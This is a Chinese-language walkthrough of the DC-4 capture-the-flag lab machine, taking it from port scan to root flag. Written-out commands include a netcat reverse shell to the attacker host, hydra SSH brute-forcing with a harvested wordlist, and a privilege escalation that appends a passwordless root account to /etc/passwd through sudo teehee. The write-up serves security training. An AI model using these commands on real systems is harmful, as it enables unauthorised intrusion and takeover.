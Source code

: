 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-4（192.168.1.12）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.12
```

![image-20220111094642715.png](../../_img\06-靶场实践/1652256328235-3a48ced6-cb03-4105-9180-1a8eb3cf434f.png)

可以看到开放了22号端口SSH服务和80端口HTTP服务

访问HTTP服务，是一个登录页面

![image-20220111094804504.png](../../_img\06-靶场实践/1652256333137-640078ab-7043-44a7-81d1-ae18130ccf4f.png)

查看网页源码，没什么卵用

![image-20220111094904759.png](../../_img\06-靶场实践/1652256336615-fe3968c0-5669-46f3-b1b3-9f609660a732.png)


## 目录扫描

并没有什么有用的信息

![image-20220111095500468.png](../../_img\06-靶场实践/1652256340086-eb549f2f-62f8-4aa6-8a14-0d17a0b00b0c.png)


## 暴力破解

输入账户admin任意密码，使用burpsuite抓包进行爆破

![image-20220111100742650.png](../../_img\06-靶场实践/1652256343257-ea434143-8694-4194-a397-61d8ba0b0feb.png)

爆破出密码为happy


## 漏洞发现

登录系统后发发现是一个可以执行系统命令的页面

![image-20220111100919355.png](../../_img\06-靶场实践/1652256347511-7b40f9f4-964e-4c22-ae17-76c472859fd9.png)

尝试使用burpsuite抓包修改命令来实现SRC

![image-20220111101149990.png](../../_img\06-靶场实践/1652256351029-10171776-c668-4f7a-b465-d0cac5742f68.png)

可以执行任意命令，尝试使用nc反弹shell


## 漏洞利用

设置监听

```
nc -vnlp 1234
```

![image-20220111101549464.png](../../_img\06-靶场实践/1652256355137-947753d1-5d30-473d-a762-a47eabbfa5c8.png)

使用NC反弹shell

```
nc 192.168.1.28 1234 -e /bin/bash
```

![image-20220111101918954.png](../../_img\06-靶场实践/1652256359009-7761984f-4a09-48e8-991b-d92724b78a86.png)

成功反弹

![image-20220111102027031.png](../../_img\06-靶场实践/1652256363338-f4f0261a-b2c5-4d49-8e25-19232ea328c0.png)

查看/etc/passwd文件

![image-20220111113446593.png](../../_img\06-靶场实践/1652256366494-bd87be74-6feb-4e06-bb60-695a3329da02.png)

在jim目录下的backups目录中发现字典文件old-passwords.bak

![image-20220111113740020.png](../../_img\06-靶场实践/1652256370547-b1fb822d-221f-4dd4-88fa-a223a927d8bc.png)

将字典文件保存下来使用hydra进行爆破

```
hydra -l jim -P password.txt ssh://192.168.1.12
```

![image-20220111114918220.png](../../_img\06-靶场实践/1652256376049-fdaf69dc-538b-48bc-90cc-0e6ac951adf0.png)

得到jim的密码jibril04

使用jim账号登录

```
ssh jim@192.168.1.12
```

![image-20220111115213797.png](../../_img\06-靶场实践/1652256381354-a268e7be-9a38-4593-ac36-c56f9d94a490.png)

查看jim目录下的mbox文件可以发现在2019年4月6日星期六20:20:04，收到了一封来自root的邮件

![image-20220111115736723.png](../../_img\06-靶场实践/1652256384722-6856bf5a-912c-49cf-be36-fa6883ae4973.png)

查看该邮件

![image-20220111115935335.png](../../_img\06-靶场实践/1652256388080-d4472441-99c6-4cdf-a24f-cbe08fbefc56.png)

在邮件中我们得到了一个用户密码charles/^xHhA&hvim0y

登录charle并查看scharles的sudo权限

![image-20220111120240351.png](../../_img\06-靶场实践/1652256391926-427fbb06-2a5b-44f0-ba00-cc524198a87d.png)

显示我们可以以root权限运行teehee命令

![image-20220111120535688.png](../../_img\06-靶场实践/1652256395862-fce2f126-c4f7-4c79-a4bf-5044adabac4d.png)

tee命令用于读取标准输入的数据，并将其内容输出成文件。在这里我们是root权限，所以我们可以给所有文件随意添加内容。


## 提权

向/etc/passwd中写入一个拥有root权限的用户
```
echo "XMTX::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

![image-20220111135359205.png](../../_img\06-靶场实践/1652256399016-4c74cdbf-c51a-4a15-8db6-7e3670893ee7.png)


## final-flag

在root根目录下找到flag

![image-20220111135511524.png](../../_img\06-靶场实践/1652256402114-664d07a2-0feb-4487-bc6c-c3d4166f083a.png)
